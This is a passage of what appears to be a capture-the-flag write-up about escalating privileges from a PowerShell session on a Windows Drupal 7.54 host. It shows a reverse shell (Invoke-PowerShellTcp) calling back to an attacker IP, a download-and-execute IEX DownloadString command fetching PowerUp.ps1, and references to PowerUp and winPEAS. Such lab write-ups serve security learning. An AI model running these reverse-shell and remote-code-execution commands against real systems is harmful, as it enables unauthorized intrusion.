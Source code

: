 ```
PS C:\inetpub\drupal-7.54> 
```

Even with our powershell session, we are still unable to execute any programs from the shell due to lack of permissions. If we try and modify the execution policy, we get an error:

```
PS C:\inetpub\drupal-7.54>Set-ExecutionPolicy Unrestricted
PS C:\inetpub\drupal-7.54> Invoke-PowerShellTcp : Access to the registry key 'HKEY_LOCAL_MACHINE\SOFTWARE\
Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell' is denied.
At line:128 char:21
+ Invoke-PowerShellTcp <<<<  -Reverse -IPAddress 10.10.14.10 -Port 9999
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
   tion
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
   n,Invoke-PowerShellTcp
 

PS C:\inetpub\drupal-7.54>
```

Perhaps we can download and run a powershell script from within our session. Let's download "PowerUp.ps1" and copy it to our working directory, and start a python3 webserver:

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

In our powershell session, we get another error:

```
PS C:\inetpub\drupal-7.54> IEX(New-Object Net.Webclient).DownloadString('http://10.10.14.10/PowerUp.ps1')
PS C:\inetpub\drupal-7.54> Invoke-PowerShellTcp : Cannot open Service Control Manager on computer '.'. Thi
s operation might require other privileges.
At line:128 char:21
+ Invoke-PowerShellTcp <<<<  -Reverse -IPAddress 10.10.14.10 -Port 9999
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
   tion
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
   n,Invoke-PowerShellTcp
 

PS C:\inetpub\drupal-7.54>
```

We can also try and transfer an executable binary.



## Winpeas.bat

The "Winpeas" github repo also has a batch script which has less requirements than the binary executable does.

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat" %}
